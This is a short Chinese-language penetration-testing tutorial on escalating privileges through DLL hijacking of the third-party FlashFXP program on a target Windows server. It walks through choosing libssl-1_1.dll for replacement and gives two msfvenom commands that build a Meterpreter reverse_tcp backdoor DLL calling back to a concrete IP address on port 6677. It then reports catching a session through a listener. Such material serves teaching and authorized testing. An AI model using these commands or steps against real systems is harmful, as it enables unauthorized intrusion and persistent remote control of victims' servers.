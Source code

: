 1. 特定第三方软件
2. 特定软件的控制权限
3. AlwaysInstallElevated提权默认禁用配置，利用成功机会很少
4. 管理员要启动程序
5. dll程序要能替换

通过信息收集，发现目标服务器上存在一个第三方软件flashfxp，并且发现有dll文件。

![发现程序](./dll劫持/发现程序.png)

因为第三方软件在对方服务器上，所以我们需要本地下载一个相同的软件，使用火绒剑工具进行进程调试分析。

由于系统文件和系统目录里的文件我们无法删除修改，因此我们可以重点查看在软件安装目录里的未知文件和数字签名文件。可以选择`libssl-1_1.dll`文件进行后续的删除替换。

![找到对应的文件](./dll劫持/找到对应的文件.png)

msf生成后门木马。

```shell
msfvenom -p windows/meterpreter/reverse_tcp lhost=101.37.169.46 lport=6677 -f dll >/opt/x.dll # 生成到指定目录
msfvenom -p windows/meterpreter/reverse_tcp lhost=101.37.169.46 lport=6677 -f dll -o xxx.dll # 生成到根目录
```

msf启动监听，服务器运行flashfxp软件程序，成功监听到会话。

![生成dll](./dll劫持/生成dll.png)
